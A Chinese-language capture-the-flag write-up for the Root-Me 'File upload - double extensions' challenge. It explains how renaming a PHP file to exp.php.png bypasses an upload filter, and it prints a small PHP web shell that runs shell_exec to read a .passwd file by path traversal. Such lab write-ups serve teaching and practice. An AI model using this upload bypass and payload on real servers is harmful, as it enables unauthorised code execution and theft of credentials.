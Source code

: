 ## [[Root-Me](https://www.root-me.org/)] [[Web-Server](https://www.root-me.org/en/Challenges/Web-Server/)] [[File upload - double extensions](https://www.root-me.org/en/Challenges/Web-Server/File-upload-double-extensions)] [[解题报告](https://exp-blog.com/safe/ctf/rootme/web-server/file-upload-double-extensions/)]

------

题目给出了两个提示：

- 双重后缀绕过（double extensions）
- 目标文件 .passwd 在 web 服务的根路径

上传一个图片测试一下，页面会给出图片的 URL 地址，点开后可以打开原图，猜测这或许是一个可利用点。

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Server/%5B14%5D%20%5B20P%5D%20File%20upload%20-%20double%20extensions/imgs/01.png)

又从给出的 URL 地址知道，上传的文件距离 web 服务根目录的位置，因此可以构造一个路径穿越的 payloads 文件，文件名为 `exp.php`：

```php
<?php
	// exp.php.png
	// 假如这个文件上传成功，则可以利用 web 打开这个文件进行解析时进行路径穿越
	$content = shell_exec('cat ../../../.passwd');
	echo "<pre>$content</pre>";
?>
```

但因为上传会检测文件后缀，无法直接上传。把文件更名为 `exp.php.png` 尝试绕过检测机制，上传成功。

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Server/%5B14%5D%20%5B20P%5D%20File%20upload%20-%20double%20extensions/imgs/02.png)

上传成功后，打开这个伪造的图片文件，发现它被作为 php 文件解析了（应该是 web 设置的问题），成功获得密码，完成挑战。


![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Server/%5B14%5D%20%5B20P%5D%20File%20upload%20-%20double%20extensions/imgs/03.png)

------

## 版权声明

　[![Copyright (C) EXP,2016](https://img.shields.io/badge/Copyright%20(C)-EXP%202016-blue.svg)](http://exp-blog.com)　[![License: GPL v3](https://img.shields.io/badge/License-GPL%20v3-blue.svg)](https://www.gnu.org/licenses/gpl-3.0)
  

- Site: [http://exp-blog.com](http://exp-blog.com) 
- Mail: <a href="mailto:289065406@qq.com?subject=[EXP's Github]%20Your%20Question%20（请写下您的疑问）&amp;body=What%20can%20I%20help%20you?%20（需要我提供什么帮助吗？）">289065406@qq.com</a>


------
